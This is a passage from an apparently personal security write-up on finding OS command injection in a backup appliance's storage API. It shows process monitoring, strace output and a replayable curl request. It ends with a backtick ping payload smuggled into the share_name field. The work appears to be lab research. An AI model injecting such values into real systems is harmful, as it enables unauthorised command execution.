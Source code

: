 ```while true; do ps -eaF;  done | grep -i [A]AAA ```
root       648   644  0 27557  1416   0 06:44 ?        00:00:00 sh -c PATH=$PATH:/usr/bp/bin cmc_nas connect aaaaa source AAAAAAAAAAA 2049 nfs aaaaaa aaaa 'zzzzz' >/tmp/REx_yXsMlE 2>/tmp/REx_KsSyfR
{% endhighlight %}


Contrasting to using strace where there is a lot more noise and we can conclude that there is some interprocess socket communication with user input which will take more investigation with more tools. It isn't an obvious command injection vector.  

{% highlight shell  %}
[root@VMware-UB tmp]# cat proc_dump.* | grep -i AAAA
7376  sendto(16, "B\0\0\0\37\00015\0\0\0\0\1\0\0\0\vAAAAAAAAAAA\0\1\0\0D\0\0\0\6P\0E\0\0\0\t\0\0\0\0\0S\0\0\0\4", 54, MSG_NOSIGNAL, NULL, 0) = 54
7376  sendto(16, "B\0\0\0=\00016\0\0\0\0\4\0\0\0\vAAAAAAAAAAA\0\0\0\0042049\0\0\0\3nfs\0\0\0\vAAAAAAAAAAA\0\1\0\0D\0\0\0\6P\0E\0\0\0\t\0\0\0\0\0S\0\0\0\4", 84, MSG_NOSIGNAL, NULL, 0) = 84
7376  sendto(16, "B\0\0\0g\00017\0\0\0\0\10\0\0\0\003310\0\0\0\vAAAAAAAAAAA\0\0\0\0042049\0\0\0\3nfs\0\0\0\vAAAAAAAAAAA\0\0\0\0010\0\0\0\vAAAAAAAAAAA\0\0\0\vAAAAAAAAAAA\0\1\0\0D\0\0\0\6P\0E\0\0\0\t\0\0\0\0\0S\0\0\0\4", 126, MSG_NOSIGNAL, NULL, 0) = 126
7376  sendto(18, "\245R\0-\0\0\0t\0\0\0\1\0\0\0L\0\0\0`cmc_nas connect AAAAAAAAAAA source AAAAAAAAAAA 2049 nfs AAAAAAAAAAA AAAAAAAAAAA 'AAAAAAAAAAA'\0\0\0", 116, 0, NULL, 0) = 116
7376  recvfrom(19, "ERROR: Failed to mount directory AAAAAAAAAAA on /mnt/nas/AAAAAAAAAAA.", 69, 0, NULL, NULL) = 69
{% endhighlight %}

Using your browser's developer tools we can find the relevant HTTP request from the network tab and select 'copy as cURL'; which we will use to replay this HTTP request as we develop it into a CMDi proof of concept. 

![chrome1]({{ "/assets/chrome1.png" | relative_url }}) 	

You will end up with something like this:
{% highlight shell  %}
curl -i -s -k  -X $'POST' \
    -H $'Origin: https://10.0.0.220' -H $'AuthToken: djA6N2Y3YTNmOTAtYWI3ZS00OTk2LWE0NzYtOTJjNTczYjg3YjFkOjE6L3Vzci9icC9sb2dzLmRpci9ndWlfcm9vdC5sb2c6MA==' -H $'User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/62.0.3202.94 Safari/537.36' -H $'Content-Type: application/json;charset=UTF-8' -H $'Referer: https://10.0.0.220/ui/' \
    -b $'initial_tab_recover=1; initial_tab_jobs=1; nav=%22nav-expanded%22; autologin=false; uid=1; superuser=true; administrator=false; monitor=false; username=%22root%22; role_name=undefined; role_scope=undefined; role_recover_options=undefined; initial_tab_config=1; Page=%22Configure%22; token=%22djA6N2Y3YTNmOTAtYWI3ZS00OTk2LWE0NzYtOTJjNTczYjg3YjFkOjE6L3Vzci9icC9sb2dzLmRpci9ndWlfcm9vdC5sb2c6MA%3D%3D%22' \
    --data-binary $'{\"properties\":{\"protocol\":\"nfs\",\"port\":2049,\"hostname\":\"AAAAAAAAAAA\",\"share_name\":\"aaaaaa\",\"username\":\"aaaa\",\"password\":\"zzzzz\"},\"usage\":\"source\",\"type\":4,\"is_encrypted\":false,\"system\":1,\"name\":\"aaaaa\"}' \
    $'https://10.0.0.220/api/storage/?sid=1'
{% endhighlight %}

We will continue using the console output from above.  Having this debugging output enables us to work efficiently as we can intelligently tune our request based on the context surrounding our input parameter. A lot of times this maybe done blindly using an Burp ActiveScan or Intruder with a fuzzdb dictionary which are great tools and can be very effective. Though we should have an even higher success doing this manually especially with more nuanced vulnerabilities. If I am having troubles coming up with CMDi strings for manual testing fuzzdb is a great resource. For example this unix CMDi page - https://github.com/fuzzdb-project/fuzzdb/blob/master/attack/os-cmd-execution/command-execution-unix.txt

This specific example proves to be very easy and within minutes we can demonstrate CMDi using ping.  On my host OS I setup tcpdump using an inclusive filter of ICMP traffic only like so: 
```tcpdump icmp  ```

The sharename parameter is vulnerable to CMDi using the classic backticks: ```\"share_name\":\"aaaaaa`ping 10.0.0.169`\"``` and we see ICMP requests coming in from our UEB box.
```